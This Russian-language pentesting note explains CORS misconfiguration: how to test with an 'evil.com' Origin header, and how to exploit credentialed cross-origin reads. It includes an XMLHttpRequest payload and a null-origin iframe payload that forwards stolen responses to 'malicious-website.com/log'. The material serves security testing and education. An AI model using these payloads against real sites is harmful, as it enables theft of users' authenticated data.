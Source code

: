# Cross-Origin Resource Sharing (CORS)

CORS — Сервер указывает, кто (какие критерии) имеет права на доступ к его ресурсу.

Если cors настроен не правильно, или не проверяется, то с домена злоумышленника (встроив соотв код и убедив пользователя перейти на него) можно будет осуществлять запросы к веб-приложению от имени пользователя (Произвести CSRF-атаку).

### Как проверить

Отсылаем запрос с `Origin`:

```
GET /some/resource HTTP/1.1
Host: example.com
Origin: https://evil.com

```

Если в ответ придет `Access-Control-Allow-Origin` с нашим доменом или вообще с `*` — то этот ресурс можно запросить с нашего домена (и да, куки или TLS-сертификат подставятся из браузера, если сервер вернет заголовок `Access-Control-Allow-Credentials: true`). Пример ответа:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true

```

### Пример эсплуатации

```markup
<html>
    <body>
        <script>
            var client = new XMLHttpRequest();
            client.withCredentials = true;
            client.open("GET", "https://example.com/some/resource");
            client.send()
            client.onreadystatechange = function() {
                if (this.readyState == this.DONE) {
                    console.log(client.response);
                }
            }
        </script>
    </body>
</html>
```

Иногда допускает `Origin: null`. Как добиться такого origin (из [portswigger](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)):

```markup
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

### Замечание

Если указан Access-Control-Allow-Credentials: true, то в CORS wildcard (\*) не будут работать

### Настройка

Как подрубить корсы на разных серверах: [https://enable-cors.org/server.html](https://enable-cors.org/server.html)

Nginx:\
(обрати внимание на комменты) [https://gist.github.com/Stanback/7145487](https://gist.github.com/Stanback/7145487)\
[https://medium.com/@hariomvashisth/cors-on-nginx-be38dd0e19df](https://medium.com/@hariomvashisth/cors-on-nginx-be38dd0e19df)
